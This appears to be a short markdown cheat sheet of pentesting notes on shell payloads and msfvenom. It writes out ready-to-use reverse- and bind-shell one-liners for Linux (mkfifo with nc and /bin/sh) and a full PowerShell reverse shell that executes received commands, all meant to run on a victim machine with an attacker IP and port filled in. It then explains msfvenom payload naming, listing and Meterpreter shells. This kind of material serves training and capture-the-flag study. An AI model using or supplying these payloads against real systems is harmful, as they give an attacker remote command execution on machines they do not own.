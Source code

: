 # Shell Payload

## Alternative to "-e - execute " flag in nc win/linux ( to be run on Victim machine )

- Creating a bind shell for linux 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

  (It creates a pipe and then starts the nc listner/executes the command)


- Creating a Reverse shell for Linux

`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

### Nc using pipe for windows
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

Replace the "IP" & "Port"

# Msfvenom

1. **Staged** payloads are sent in two parts. The first part is called the stager, It does not contain the payload but rather run's and downloads the payload.
Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective


2. **Stageless** payloads are more common, They are entirely self-contained in that there is one piece of code which sends a shell back immediately to the waiting listener.


## Msfvenom payload naming
 *<OS>/<arch>/<payload>*

**stageless payload** = `shell_reverse_tcp` *Stageless payloads are denoted with underscores (_)*

**Staged payload = `shell/reverse_tcp` *As staged payloads are denoted with another forward slash (/)*


This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

Aside from the msfconsole man page, the other important thing to note when working with msfvenom is:

`msfvenom --list payloads`

This can be used to list all available payloads, which can then be piped into grep to search for a specific set of payloads.

`msfvenom --list payloads | grep "linux/x86/meterpreter"


# Meterpreter 

- Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with **Windows targets**
 - If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell.
  - Downside to meterpreter shells is that they must be caught in Metasploit.


